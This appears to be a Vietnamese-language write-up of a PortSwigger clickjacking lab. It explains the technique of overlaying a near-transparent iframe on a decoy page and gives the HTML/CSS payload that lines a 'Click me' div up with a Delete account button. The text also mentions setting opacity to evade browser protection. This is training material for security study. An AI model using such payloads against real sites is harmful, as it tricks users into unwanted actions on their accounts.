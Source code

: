 # How to construct a basic clickjacking attack? 

Các cuộc tấn công Clickjacking sử dụng CSS để tạo và thao tác các layers. Kẻ tấn công kết hợp trang web mục tiêu như một **iframe layer** được phủ lên trên trang web giải mã. Một ví dụ sử dụng style tag và style parameters như sau:

    <head>
        <style>
            #target_website {
                position:relative;
                width:128px;
                height:128px;
                opacity:0.00001;
                z-index:2;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                }
        </style>
    </head>
    ...
    <body>
        <div id="decoy_website">
        ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://vulnerable-website.com">
        </iframe>
    </body>

# How to construct a basic clickjacking attack - Continued

Clickjacking là một kiểu tấn công mà kẻ tấn công lừa người dùng thực hiện một hành động trên một trang web khác (trang web mục tiêu) mà họ không hề hay biết. Đây là cách mà một cuộc tấn công clickjacking cơ bản được xây dựng:

1. **Nhúng trang web mục tiêu**:

    Kẻ tấn công nhúng trang web mục tiêu (trang muốn bị tấn công) vào bên trong một iframe ẩn. Iframe này chứa các hành động mà kẻ tấn công muốn người dùng vô tình thực hiện (ví dụ: nhấn vào một nút nào đó).

2. **Định vị chính xác**:

    - Iframe được định vị một cách cẩn thận để các phần tử tương tác (ví dụ: nút, liên kết) của nó nằm chính xác ở vị trí chồng lên giao diện của trang web giả mạo do kẻ tấn công tạo ra.

    - Kẻ tấn công sử dụng các giá trị CSS như **width**, **height**, và vị trí (cả tuyệt đối và tương đối) để đảm bảo iframe luôn chồng đúng vị trí bất kể kích thước màn hình, trình duyệt, hay nền tảng sử dụng.

3. **Thứ tự lớp hiển thị (z-index)**:

    Thuộc tính z-index được sử dụng để điều chỉnh thứ tự xếp chồng giữa iframe và các layer của trang web giả mạo, đảm bảo iframe nằm trên các lớp cần thiết.

4. **Làm mờ hoặc ẩn iframe**:

    - Thuộc tính *opacity* của iframe được đặt về 0.0 (hoặc gần 0.0) để nội dung iframe trở nên trong suốt, khiến người dùng không nhìn thấy nó.

    - Một số trình duyệt (ví dụ: Chrome từ phiên bản 76 trở đi) có cơ chế bảo vệ clickjacking, sử dụng phát hiện độ trong suốt của iframe. Nhưng các trình duyệt khác, như Firefox, có thể không có bảo vệ này.

    - Kẻ tấn công chọn giá trị *opacity* phù hợp để đạt được hiệu quả mong muốn mà không kích hoạt cơ chế bảo vệ của trình duyệt.

# Lab: Basic clickjacking with CSRF token protection
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image1.png?raw=true)

### Web page
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image2.png?raw=true)

### Solution

Log in vào account được cấp wiener:peter

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image3.png?raw=true)

Cần tạo payload có dạng như sau để phủ lên web page: 

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

Thay đổi thành: 

    <style>
        iframe {
            position:relative;
            width: 1000px;
            height: 700px;
            opacity: 0.1;
            z-index: 2;
        }
        
        div {
          position: absolute;
          top: 515px;
          z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a7400e60385881180282604000b0020.web-security-academy.net/my-account"></iframe>

Cần điều chỉnh để Test me và Delete account button lồng với nhau. Go to exploit server và copy payload vào phần body: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image4.png?raw=true)

Store và View exploit:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image5.png?raw=true)


Solved the lab!

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image6.png?raw=true)







